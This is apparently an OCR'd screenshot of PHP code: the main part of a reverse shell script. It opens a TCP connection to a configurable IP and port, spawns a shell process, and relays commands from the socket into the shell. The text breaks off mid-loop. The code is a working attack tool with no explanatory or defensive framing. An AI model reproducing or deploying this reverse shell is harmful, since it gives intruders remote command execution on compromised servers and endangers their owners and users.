 ```php

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
```